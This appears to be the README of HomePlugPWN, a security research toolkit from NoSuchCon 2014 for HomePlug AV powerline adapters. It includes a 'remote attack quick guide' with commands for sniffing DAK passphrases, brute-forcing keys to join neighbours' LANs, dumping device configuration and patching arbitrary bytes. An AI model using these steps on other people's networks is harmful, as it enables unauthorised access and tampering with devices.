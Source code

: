 Support
=======

This project has been developed at Sogeti when the R&D lab was still up. For ongoing support, visit @FlUxIuS' repository https://github.com/FlUxIuS/HomePlugPWN. 

HomePlugPWN
===========

HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1_03_Sebastien_Dudek_HomePlugAV_PLC.pdf

## Requirements 
- Python >= 2.6
- Scapy 2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address
- PIBdump.py: dumps your entire PLC configure (PIB) into a file
- patchPIB.py: patch arbitrary bytes of your PLC, or a field between bytes 0x0-0x400 (see the details of ModulePIB conditions in the Scapy layer). 

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Dump the entire PIB

The following tool aims to dump the entire PIB. You could also use the same techniques to dump the NVM or the Soft-Bootloader...

To process the dump use it as follows:

```bash
python2 ./PIBdump.py -i enp0s26u1u1 -o mycpl.pib
[...]
[+] PIB dump: Success!
```

A file containing your PLC Programmable Information Blocks (PIB) should be created as follows:

```bash
wc -c mycpl.pib 
16440 mycpl.pib
```

## Patch your PIB

If you want to change your MAC address for example, you can specify the Scapy attribute to modify and its new value:

```bash
python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -t "PIBMACAddr" -v "c0:ff:ee:c0:ff:ee"
```

The MAC address should be changed after that for your targeted device. But if the addresses are read-only for this device, you have to hack a little bit to reflash it correctly.

Nevertheless, if you want to change any arbitrary byte use this command as follows:

```bash
 python2 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -a <start_addr>:<len> -v <value>
```

Like this, you can rewrite the tone map and any other field of your choice ;)

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities
